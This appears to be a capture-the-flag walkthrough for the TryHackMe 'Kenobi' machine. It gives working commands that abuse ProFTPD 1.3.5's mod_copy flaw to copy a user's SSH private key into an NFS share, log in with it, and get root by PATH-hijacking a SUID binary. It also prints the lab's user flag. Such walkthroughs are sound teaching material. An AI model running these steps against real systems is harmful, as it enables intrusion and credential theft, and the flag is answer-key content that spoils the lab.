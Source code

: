 1. Scan the network.

	$$ nmap -sV 10.10.69.218

	==> Nmap scan report for 10.10.69.218

		PORT     STATE SERVICE     VERSION

		21/tcp   open  ftp         ProFTPD 1.3.5
		22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
		80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
		111/tcp  open  rpcbind     2-4 (RPC #100000)
		139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
		445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
		2049/tcp open  nfs_acl     2-3 (RPC #100227)

		Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

		# Nmap done at Tue Feb  8 13:45:48 2022 -- 1 IP address (1 host up) scanned in 32.96 seconds
		

2. Smb enumeration.

	* 2_Ways:

		1. Enumerate using nmap scripts:

			$$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.69.218

			==> Nmap scan report for 10.10.69.218

				PORT    STATE SERVICE

				445/tcp open  microsoft-ds

				Host script results:
				| smb-enum-shares: 
				|   account_used: guest
				|   \\10.10.69.218\IPC$: 
				|     Type: STYPE_IPC_HIDDEN
				|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
				|     Users: 2
				|     Max Users: <unlimited>
				|     Path: C:\tmp
				|     Anonymous access: READ/WRITE
				|     Current user access: READ/WRITE
				|   \\10.10.69.218\anonymous: 
				|     Type: STYPE_DISKTREE
				|     Comment: 
				|     Users: 0
				|     Max Users: <unlimited>
				|     Path: C:\home\kenobi\share
				|     Anonymous access: READ/WRITE
				|     Current user access: READ/WRITE
				|   \\10.10.69.218\print$: 
				|     Type: STYPE_DISKTREE
				|     Comment: Printer Drivers
				|     Users: 0
				|     Max Users: <unlimited>
				|     Path: C:\var\lib\samba\printers
				|     Anonymous access: <none>
				|_    Current user access: <none>

				# Nmap done at Tue Feb  8 13:59:20 2022 -- 1 IP address (1 host up) scanned in 50.42 seconds


		2. Enumerate using enum4linux tool.

			$$ enum4linux 10.10.69.218

			==>  ========================================= 
				|    Share Enumeration on 10.10.69.218    |
				 ========================================= 

				        Sharename       Type      Comment
				        ---------       ----      -------
				        print$          Disk      Printer Drivers
				        anonymous       Disk      
				        IPC$            IPC       IPC Service (kenobi server (Samba, Ubuntu))

				[+] Attempting to map shares on 10.10.69.218

				//10.10.69.218/print$   Mapping: DENIED, Listing: N/A
				//10.10.69.218/anonymous        Mapping: OK, Listing: OK
				//10.10.69.218/IPC$     [E] Can't understand response:


3. Login to smb server.

	$$ snbclient //10.10.69.218/anonymous
	$$ ls

	==> log.txt                             N    12237  Wed Sep  4 10:49:09 2019


4. Recursivly download the SMB share.

	$$ smbget -R smb://10.10.69.218/anonymous
	$$ ls -la

	==> -rwxr-xr-x 1 kali kali 12237 Feb  8 14:17 log.txt


5. Enumerate 'rpcbind' using nmap.

	$$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.69.218

	==> Nmap scan report for 10.10.69.218

		PORT    STATE SERVICE
		111/tcp open  rpcbind
		| nfs-showmount: 
		|_  /var *

## Here we got know that we can mount serevr's '/var' directory to our system.


6. Search an exploit of 'ProFTPD 1.3.5'.

	$$ searchsploit ProFTPD 1.3.5

	==> 
		---------------------------------- ---------------------------------
		 Exploit Title                    |  Path
		---------------------------------- ---------------------------------
		ProFTPd 1.3.5 - 'mod_copy' Comman | linux/remote/37262.rb
		ProFTPd 1.3.5 - 'mod_copy' Remote | linux/remote/36803.py
		ProFTPd 1.3.5 - File Copy         | linux/remote/36742.txt
		---------------------------------- ---------------------------------


## Her we got know that we can copy anything from one place to another in the server('mod_copy' vulnerability).


7. Loging in and copy the 'id_rsa' file to '/var' 

	$$ nc 10.10.69.218 21

	==> 220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.69.218]

## We are now in the server and we can take advantage of the vulnerability.

8. Copy 'id_rsa' file to '/var' directory.

	$$ site cpfr /home/kenobi/.ssh/id_rsa
	$$ site cpto /var/tmp/id_rsa

	==> 250 Copy successful


9. Mount the server's directory to our local system.

	$$ mkdir /mnt/kenobiNFS
	$$ mount 10.10.69.218:/var /mnt/kenobiNFS
	$$ cd /mnt/kenobiNFS
	$$ ls -la
	$$ cd tmp
	$$ ls -la
	$$ cp id_rsa /ctf/Try_hack_me/kenobi/
	$$ chmod 600 id_rsa


10. Login to kenobi's account using ssh.

	$$ ssh kenobi@10.10.69.218 -i id_rsa

## And we are in. 


11. Grab the User flag.

	$$ cat user.txt

	==> User_Flag: d0b0f3f53b6caa532a83915e19224899


12. Escalate our privilege using SUID binary.

	$$ find / -perm -u=s -type f 2>/dev/null

	## '/usr/bin/menu' isn't a regular binary file. 

	$$ usr/bin/menu

	==> 
		***************************************
		1. status check
		2. kernel version
		3. ifconfig
		** Enter your choice :


	## These menu items are using below commands. 

	$$ curl -I 127.0.0.1
	$$ uname -r
	$$ ifconfig

	## This shows us that the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname)

	## This file runs as the root user privileges.


13. Setup for a root shell.

	$$ cd /tmp
	$$ echo /bin/bash > curl
	$$ chmod 777 curl
	$$ export PATH=/tmp:$PATH


14. Get a root shell.

	$$ /usr/bin/menu

	==> 
		***************************************
		1. status check
		2. kernel version
		3. ifconfig
		** Enter your choice : 1

## we are now root.


15. Verify.

	$$ id 

	==> uid=0(root) gid=100(kenobi) groups=1000(kenobi),4(adm)
